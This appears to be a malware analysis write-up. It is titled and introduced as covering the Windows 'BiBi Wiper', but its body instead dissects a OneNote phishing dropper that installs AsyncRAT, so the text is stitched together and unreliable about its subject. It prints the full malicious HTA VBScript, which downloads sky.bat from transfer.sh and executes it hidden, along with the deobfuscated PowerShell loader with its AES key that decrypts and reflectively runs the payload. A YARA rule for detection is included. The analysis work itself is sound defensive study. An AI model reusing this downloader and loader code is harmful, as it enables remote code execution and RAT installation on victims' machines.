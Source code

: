 # BiBI-Wiper-Analysis

On 30th October, Security Joes posted its findings about a Wiper malware for Linux systems used in the war in Gaza. It was called the "BiBi-Linux Wiper".And then on November 1 2023, BlackBerry Research and Intelligence Team found its Windows variant.

In this post, we will look at the Windows version of the BiBi Wiper known as the "BiBi-Windows Wiper"

## Malware Sample

> **MD5:** e26bba0304f14ef96beb60376791d32c

> **SHA256:** 40417e937cd244b2f928150cae6fa0eff5551fdb401ea072f6ecdda67a747e17

## Basic Static Analysis

- Attackers sending OneNote file as an attachment using email and using simple trick to hide suspicious script. 

- The suspicious VBS macro linked to the "Click to view document" PNG picture is just behind this picture.  

- Once User clicked on view document  VBS macro will execute.

![image](https://user-images.githubusercontent.com/43460691/216254324-951b4861-e580-4d77-901c-fcd8cbf620c5.png)

## Dump OneNote File content 

- There is an awesome tool created by Didier Stevens to dump content from the OneNote file. Check the below output. OneNote file containing two PNG and one HTA file.

- Steam number 2 holds the HTA script (starting with "<!").

> ***`REMnux: python3 onedump.py "file name"`***

![image](https://user-images.githubusercontent.com/43460691/216254734-737826fe-afc8-4f3e-a4e6-6f2808bae465.png)

- Below are the dumped files, Where "Click to view document" image used to trick user and execute script.

![image](https://user-images.githubusercontent.com/43460691/216254817-9180ca56-1b3f-42eb-8ad1-903b4f1e38c8.png)


- If you look into below HTA file  we can see first ExecuteCmdAsync invoke WebRequest -Uri and downloading **notes_to_do_list.one** file and writing on disk as invoice.one which is simple note and not malicious.

- The second  ExecuteCmdAsync  downloading sky.bat file and writing on disk in tmp folder as system32.bat and execute.

![image](https://user-images.githubusercontent.com/43460691/216255016-54797b05-27ba-493d-8e14-b21d702ee5a7.png)

## Strings Check

- HTA file is not obfuscated and we can see HTA file in Strings output as well.

> ***`REMnux: strings "file name"`***

```
remnux@remnux:~/Downloads$ strings Invoice.one 
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine ) 
    Dim objConfig 
    Dim objProcess 
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL ) 
    Dim procId 
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://www.onenotegem.com/uploads/soft/one-templates/notes_to_do_list.one -OutFile $env:tmp\invoice.one; Start-Process -Filepath $env:tmp\invoice.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://transfer.sh/get/5dLEvB/sky.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
remnux@remnux:~/Downloads$ 
```

## Second Stage Payload 

- System32.bat file is obfuscated, Lot of environment variables are created and concatenated to build commands. If it's difficult to read, it's easy to deobfuscate. 

- Just add a "echo" at the beginning of all lines at the bottom of the file and execute it or you can use Procmon tool to PowerShell executed command.

> **SHA256:** d329a265d4005b2cb8902d6148ff5e4477f2203bc2e476e51e5895f9be99c53e

![image](https://user-images.githubusercontent.com/43460691/216255585-757086c3-90c7-40c2-88ed-97b47c3df79d.png)

- Capture the process ecexution using Procmon, If you open the process start operation you can see the deobfuscated command.

![image](https://user-images.githubusercontent.com/43460691/216359119-9be8ed37-8a16-4924-8dcc-ae34e2c52d8a.png)


- This script is a dropper. You can see base64 encoded payload is located in the file and read by PowerShell. Payload is identified by lines starting with **":: ".** 

```
"system32.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\admin\AppData\Local\Temp\system32.bat').Split([Environment]::NewLine)
foreach ($YiLGW in $eIfqq) 
{ 
  if ($YiLGW.StartsWith(':: ')) 
     { 
	    $VuGcO = $YiLGW.Substring(3)
        break
     }
}
$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CeRsc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')

$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('')))
![image](https://user-images.githubusercontent.com/43460691/216255789-c6e19f63-9991-4a34-b805-3de608cc2353.png)
```

## Payload Extraction 

- The payload is AES encrypted, you can see AES keys in deobfuscated script. We will use these keys to decrypt payload.

![image](https://user-images.githubusercontent.com/43460691/216255929-d279b878-b913-498a-a7e7-cfdaed87335a.png)


![image](https://user-images.githubusercontent.com/43460691/216255962-7725f621-9a49-4b2e-94eb-8fb784d93142.png)

- The decrypted PE file is an ASyncRAT. Check the below file hash.

> **SHA256:** f8b823dc5519d25ef2599725c25306171a8496069b1ba56cb854323ae98d10d1

![image](https://user-images.githubusercontent.com/43460691/216351747-ae3a9ad8-3518-462d-887b-86fe524c28fa.png)


## YARA Rule

```
rule malicious_onenote {
    meta:
        description = "Detects malicious onenote files"

    strings:
        $hta = "hta:application" nocase
        $hta_script = "type=\"text/vbscript\""
        $hta_open = "autoopen" nocase

    condition:
        uint32be(0x0) == 0xE4525C7B
        and 2 of them
}
```

## References :

- https://www.linkedin.com/pulse/bibi-wiper-gaza-war-now-goes-windows-dmitry-bestuzhev-yftze/#
